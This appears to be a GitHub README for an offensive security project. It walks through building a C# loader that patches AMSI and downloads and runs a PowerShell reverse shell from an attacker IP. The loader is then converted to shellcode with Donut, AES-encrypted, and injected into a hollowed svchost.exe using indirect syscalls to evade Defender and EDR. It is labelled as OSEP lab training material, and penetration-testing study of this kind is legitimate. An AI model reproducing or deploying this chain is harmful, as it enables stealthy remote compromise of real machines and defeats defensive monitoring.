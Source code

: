 # Stealth-Shellcode-Runner

# 🔒 Advanced Shellcode Execution via Process Hollowing and AES Encryption

This project demonstrates a stealthy approach to executing an AES-encrypted PowerShell reverse shell using a custom C# loader, `donut` for shellcode generation, and a custom runner using **indirect syscalls** and **process hollowing** techniques.

---

## 🧩 Step 1 - Build the PowerShell Loader (`Project_Stealth.cs`)

Create a minimal C# console project and include the following logic to:
- Patch AMSI via `.NET Reflection`
- Download and execute a PowerShell payload (e.g., reverse shell)
- Use base64 obfuscation for script names

📌 **Note:** You must manually add a reference to:
```
C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
```

### Core logic:
```csharp
// AMSI bypass + remote script execution
string attackerIP = "192.168.1.94";
PatchAMSI();
string psUrl = $"http://{attackerIP}/shell.ps1";
string psScript = GetStringFromUrl(psUrl);
ExecutePowerShell(psScript);
```

---

## 🧪 Step 2 - Generate Shellcode with Donut

Use [Donut](https://github.com/TheWover/donut) to convert the compiled loader into shellcode:

```bash
.\donut.exe -i "Project_Stealth.exe" -a 2 -f 1 -o shellcode.bin
```

- `-a 2`: Target .NET assemblies
- `-f 1`: Run the .NET assembly as unmanaged shellcode

---

## 🔐 Step 3 - AES Encrypt the Shellcode

Use this Python script to AES-encrypt the generated shellcode and format the output as C# byte arrays for easy pasting:

Paste the arrays into your Process Hollowing runner.

---

## 🧠 Step 4 - Execute with Advanced Process Hollowing + Indirect Syscalls

Use the included `ShellCode_Runner.cs` script to:

- Create a suspended process (`svchost.exe`)
- Allocate RWX memory via **indirect syscall**
- Write and decrypt AES shellcode
- Change protection and execute via `NtCreateThreadEx` (indirect syscall)

All syscalls (`NtAllocateVirtualMemory`, `NtWriteVirtualMemory`, etc.) are resolved at runtime and executed from memory stubs to evade AV/EDR.

📌 Replace the following placeholders with your encrypted values:

```csharp
byte[] encryptedShellcode = new byte[] { ... };
byte[] aesKey = new byte[] { ... };
byte[] aesIV = new byte[] { ... };
```

---

## ✅ Result

- AMSI patched silently
- Reverse shell loaded via PowerShell (downloaded at runtime)
- Shellcode encrypted, injected, and executed stealthily
- Full evasion of Defender in OSEP lab environments

---

**Built for OSEP training purposes. Use only in lab environments.**
